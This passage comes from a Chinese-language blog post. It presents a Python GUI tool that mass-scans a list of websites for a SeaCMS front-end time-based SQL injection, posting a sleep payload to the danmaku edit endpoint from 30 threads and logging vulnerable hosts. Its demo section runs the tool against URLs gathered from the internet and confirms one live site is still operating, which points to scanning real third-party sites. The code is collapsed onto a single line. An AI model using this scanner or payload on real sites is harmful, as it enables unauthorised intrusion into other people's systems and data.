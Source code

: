 大概的架构就是访问地址，发送 paylaod，然后对应利用成功和失败的特征进行鉴定，然后就是最后的 gui 模块  
  
因此我们可以对应的写出一个脚本，我按照我的漏洞写出的脚本如下  
```
import requestsimport timeimport tkinter as tkfrom tkinter import scrolledtextfrom concurrent.futures import ThreadPoolExecutorfrom ttkbootstrap.constants import *# 执行SQL注入检测的函数def sql_injection_exp(url):    target = url + "/js/player/dmplayer/dmku/index.php?ac=edit"    data = {        "cid": "(select(1)from(select(sleep(6)))x)",        "text": "1",        "color": "1"    }    headers = {        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36",        "Content-Type": "application/x-www-form-urlencoded"    }    start_time = time.time()    try:        response = requests.post(target, data=data, headers=headers, timeout=10)        elapsed_time = time.time() - start_time        if elapsed_time > 5:            output_text.insert(END, f"【*】找到SQL注入在 {target} (响应时间: {elapsed_time:.2f} 秒)\n")            output_text.see(END)            with open("找到sql注入的url.txt", 'a') as f:                f.write(url + "\n")        else:            output_text.insert(END, f"【×】没有SQL注入在 {target} (响应时间: {elapsed_time:.2f} 秒)\n")            output_text.see(END)    except requests.exceptions.RequestException as err:        output_text.insert(END, f"【×】目标请求失败：{target}，错误内容：{err}\n")        output_text.see(END)# 获取URL地址的生成器def get_urls():    with open('url.txt', 'r') as file:        for line in file.readlines():            yield line.strip()# GUI界面def sql_injection_gui():    root = tk.Tk()    root.geometry("910x450")    root.title("seacms前台sql注入")    root.resizable(0, 0)    global output_text    output_text= scrolledtext.ScrolledText(root, width=123, height=25)    output_text.grid(row=0, column=0, padx=10, pady=10)    urls = get_urls()    max_threads = 30  # 并发线程数    executor = ThreadPoolExecutor(max_workers=max_threads)    for url in urls:        future = executor.submit(sql_injection_exp, url)    root.mainloop()
```  
  
然后添加好模块  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxMVJWToKckHykZchZqYTPZdltOFa9gJDUlKdSYMK3Fskibz2YNoBKtiauEmKJZkYpZZFWiaRqClwVbw/640?wx_fmt=png&from=appmsg "null")  
  
  
可以看见是添加成功了的  
## 实战演示  
  
首先就是搜集 url 了，配置好了之后只需要  
  
![image-20241018140816637](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxMVJWToKckHykZchZqYTPZBbjHTxz1KNMiaibFzIgTIRoIRQscSRXFnNgFk7dtefv6sCGnax08Um5A/640?wx_fmt=png&from=appmsg "null")  
  
  
因为我没有 fofa 的会员，这里使用自己搜集的 url，放在一个文件里面的，如果有的话就不需要我这样操作了  
  
然后来到你需要利用的板块  
  
![image-20241018140917514](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxMVJWToKckHykZchZqYTPZjqGmep2YjxFNYWkZfxDdGIw7oRyXg7ibxMdpuCX0tOhtZhzuNOUOJjQ/640?wx_fmt=png&from=appmsg "null")  
  
利用的效果  
  
![image-20241018141059995](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxMVJWToKckHykZchZqYTPZRLOpEpEWMByM7sCa7u01R7HKibjDbNmNdBkNCI7icWE6EABPhnQqnxtA/640?wx_fmt=png&from=appmsg "null")  
  
  
然后我们可以随便找个网址验证一下  
  
进入网址效果如下，说明网址还在正常使用的  
  
![image-20241018141225997](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxMVJWToKckHykZchZqYTPZPyv6icLPHqbynl4xE9pwibkM8ONmIjOb3wrfntTEibia0j9ZqngolkyXZQ/640?wx_fmt=png&from=appmsg "null")  
  